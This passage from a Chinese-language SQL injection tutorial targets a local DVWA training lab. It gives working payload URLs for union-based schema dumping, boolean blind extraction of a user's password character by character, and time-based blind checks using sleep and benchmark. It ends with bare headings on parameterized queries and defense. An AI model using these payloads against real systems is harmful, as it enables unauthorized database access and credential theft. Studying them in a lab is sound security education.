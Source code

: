     注意这个地方的列数，是查询的列数，而不是数据表的列数。

    举个例子：

    select user,password from users     //查询的列数为2

    select * from users                             //查询的列数==数据表的列数

    \2. 判断哪些数据是显示在页面上的

    因为不是查询的所有内容都会显示在页面上（有一些内容输出在注释或者不输出）,为了数据回显，要看一下哪几列可以利用。

    如果没有可以用的回显位置的话，那就不能用union注入了。

    \3. 爆数据库（所有的结果都粗来了~）：

    <http://127.0.0.1:8080/dvwa/vulnerabilities/sqli_blind/?Submit=Submit&id=1>' 
    union select group_concat(DISTINCT table_schema),2 from information_schema.columns --+

     

    **0x14 基于布尔的盲注：**

    如果Union注入没有找到回显点，错误信息又被屏蔽的情况下，就要考虑布尔盲注了。盲注的话，往往需要多次重复。这里仅举几个简单的例子。

    \1. 基本判断方法

    <http://127.0.0.1:8080/dvwa/vulnerabilities/sqli/?Submit=Submit&id=1>' 
    and ascii(substring((select password from users limit 1),1,1))>51--+

    一位一位的验证，逐步缩小大小，定位到某一个ASCII值。

     

    **0x15 基于时间的盲注：**

    时间盲注应该是最后的选择，没有办法的办法。因为时间盲注是通过数据库的delay来判断是否注入成功，某个条件是否成立的。效率很低，注入的速度也很慢。利用场景在上文中提到了，需要好好体会。本段中的例子并不贴切。

    \1. 判断是否存在时间盲注

    union形式（如果效果不明显可以再两个0）： <http://127.0.0.1:8080/dvwa/vulnerabilities/sqli/?Submit=Submit&id=1>' union select 1,benchmark(10000000,md5("test")) --+ 

    boolen形式：<http://127.0.0.1:8080/dvwa/vulnerabilities/sqli/?Submit=Submit&id=1>' and sleep(5) --+

    \2. 爆数据库：

    具体过程和布尔型盲注相仿。



参数化查询

mysql导出

sql注入防御